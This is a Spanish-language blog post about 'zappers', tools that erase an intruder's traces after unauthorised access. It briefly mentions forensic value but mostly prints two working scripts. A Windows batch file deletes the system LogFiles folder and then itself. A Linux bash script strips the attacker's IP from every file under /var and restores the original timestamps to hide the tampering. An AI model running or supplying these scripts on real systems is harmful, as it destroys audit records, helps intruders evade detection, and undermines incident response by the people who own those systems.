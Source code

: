 ```yaml
---
id: 42
title: 'Ocultando Huellas: Zappers'
date: 2018-09-05T08:00:29+00:00
author: Oscar
layout: post
categories:
  - Otros
---
```


Mucho se habla en internet sobre el como ingresar a un sistema de manera "no autorizada", hay cientos de guías que te detallan paso a paso como explotar ciertas vulnerabilidades del algun producto o tecnología hasta entrar al sistema, pero ¿que hay una vez que entras?, ¿que hay sobre todos los rastros y huellas que vas dejando al momento de entrar?, ¿donde quedan esos registros?, etc.   

**¿Qué son los Zappers?**

Los Zappers son herramientas automatizadas para el borrado de huellas en algún sistema, existen zappers para los principales sistemas operativos, en su mayoria scripts que el usuario puede customizar según sus necesidades.

Para entender donde buscar si te toca hacer un analisis forense de algún incidente de seguridad es muy importante conocer todos estos lugares donde quedan regisros de acceso o de intentos de acceso, registros de comandos ejecutados, registros de eventos, de url consultadas, memorias caches del sistema, archivos temporales, etc.


### Ejemplos de algunos Zappers:

**Windows**:

Zapper sencillisimo en BAT:

```sh
@echo off
rd /s /q %systemroot%\Windows\System32\LogFiles
md %systemroot%\Windows\System32\LogFiles
del /f /q %0
exit
```

Fuente: [underc0deblog](http://underc0deblog.blogspot.cl/2014/03/zapper-para-windows-batch.html)

Winzapper (un antiguo zapper para windows):  
![alt text](https://www.oscarhenriquezg.net/images/2018/09/winzap.png "El antiguo winzap")

Fuente: [ntsecurity](http://ntsecurity.nu/toolbox/winzapper/)


**Linux**:

Un bonito ejemplo de zapper para linux:

```sh
#
############################################################################
# "adk.sh v0.1" hecho por el ..sR. aDiKtO.. &lt;adikto@elhacker.net&gt;
#
# Este script borra todas las lineas de todos los archivos
# que esten en /var que contengan tu ip, conservando la fecha
# de antes de la modificacion .
#
# Este script se distribuye segun la licencia GPL v.2 o posteriores y
# no tiene garantias de ningun tipo. Puede obtener una copia de la
# licencia GPL o ponerse en contacto con la Free Software
# Foundation en http://www.gnu.org
############################################################################
#
# Variable que contiene tu ip
IP="127.0.0.1"
############################################################################
# Funcion encargada de limpiar todos los logs
############################################################################
function main()
{
mkdir -p /tmp/.adk &&gt;/dev/null
for i in `find /var 2&gt;/dev/null`
do
  linea=$(cat $i 2&gt;/dev/null | grep $IP )
  if [ "$linea" != "" ]
  then
      ls -l $i &gt; /tmp/.adk/fecha 2&gt;/dev/null
      aux=$(awk '{ print $6 $7 }' /tmp/.adk/fecha 2&gt;/dev/null)
      TIEMPO=$(echo $aux | tr "-:" "\000" 2&gt;/dev/null)
      sed "/$IP/d" $i &gt; /tmp/.adk/datos 2&gt;/dev/null
      cat /tmp/.adk/datos &gt; $i 2&gt;/dev/null
      touch -t $TIEMPO $i 2&gt;/dev/null
      echo -e "IP limpiada del archivo $i"
  fi
done
rm -rf /tmp/.adk &&gt;/dev/null
}
############################################################################
#Funcion principal
############################################################################
clear
echo -e "\n    \033[40m\033[1;37m  adk.sh v0.1  \033[0m\n"
if [ $GROUPS != 0 ]
then
  echo -e "ERROR: Necesitas tener privilegios de root para poder ejecutar este script"
  exit
fi
echo -e "\n Empecemos a borrar tu ip de los log de este sistema.\n"
main
echo -e "\n Ordenador Limpiado Completamente"
</pre>
```
Fuente: [https://foro.elhacker.net/hacking\_basico/un\_buen_zapper-t26710.0.html](https://foro.elhacker.net/hacking_basico/un_buen_zapper-t26710.0.html)